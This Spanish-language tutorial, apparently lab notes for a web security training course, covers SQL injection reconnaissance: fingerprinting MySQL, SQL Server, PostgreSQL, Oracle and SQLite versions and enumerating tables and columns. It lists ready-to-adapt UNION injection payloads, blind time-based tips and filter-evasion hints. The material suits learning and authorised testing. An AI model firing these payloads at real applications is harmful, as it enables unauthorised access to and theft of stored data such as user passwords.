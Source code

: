 # Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.

---

## ¿Y Oracle? — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

---

## Consejos prácticos para labs y explotación

1. **Haz fingerprint antes de lanzar payloads ruidosos.** Si sabes que es MySQL puedes usar `GROUP_CONCAT`, `CONCAT`, `SLEEP` (MySQL) o `LOAD_FILE()`; si es PostgreSQL usarás `string_agg`, `pg_sleep`, etc.
2. **Si la app no muestra resultados directamente, usa `UNION` para inyectar resultados en una columna visible.** Primero determina número de columnas con `ORDER BY`/`UNION SELECT NULL,...`.
3. **Si no puedes usar `UNION`, recurre a inyección ciega (boolean/time-based)** y extrae información carácter a carácter con `SLEEP`/`pg_sleep`/`WAITFOR` según el motor.
4. **En Oracle, usa `all_tables` / `all_tab_columns`** para enumerar objetos; muchas apps en labs tienen estas vistas accesibles y devuelven resultados.
5. **Evita enviar consultas destructivas en entornos reales.** En labs puedes experimentar, pero en producción no modifiques ni borres datos sin autorización.

---

## Payloads conceptuales (ejemplos adaptables)

> Ajusta cada payload al parámetro vulnerable y a la estructura de la respuesta de la aplicación.

* **Detectar versión (UNION)**

  * `' UNION SELECT @@version--` (MySQL / SQL Server)
  * `' UNION SELECT version()--` (Postgres / MySQL)
  * `' UNION SELECT * FROM v$version--` (Oracle, si se devuelve)

* **Listar tablas (information_schema)**

  * `' UNION SELECT table_schema, table_name, NULL, NULL FROM information_schema.tables--`

* **Listar columnas de `Users`**

  * `' UNION SELECT column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='Users'--`

* **Oracle — listar tablas**

  * `' UNION SELECT owner, table_name, NULL FROM all_tables--`

---

## Notas sobre salida y formateo

* Muchas veces debes **concatenar columnas** o usar funciones de agregación (`GROUP_CONCAT`, `string_agg`) para que los resultados quepan en una sola columna que la página muestre.
* Ajusta el número de columnas y tipos en `UNION SELECT` para que coincida con la consulta original.
* Si la aplicación filtra caracteres (por ejemplo `'` o `--`), intenta técnicas de evasión (comentarios, codificaciones, funciones nativas del motor) o usa herramientas como Burp para manipular encodings.

---

## Ejercicios de laboratorio sugeridos (Practitioner)

* **Oracle — query de versión y listados:** encontrar si `SELECT * FROM v$version` devuelve datos y luego listar tablas con `all_tables`.
* **MySQL / SQL Server — identificar versión con `@@version` y luego enumerar tablas con `information_schema.tables`**.
* **PostgreSQL — `SELECT version()` y enumerar con `pg_catalog`**.

Incluye siempre evidencias (requests, responses, capturas) en el writeup.

---

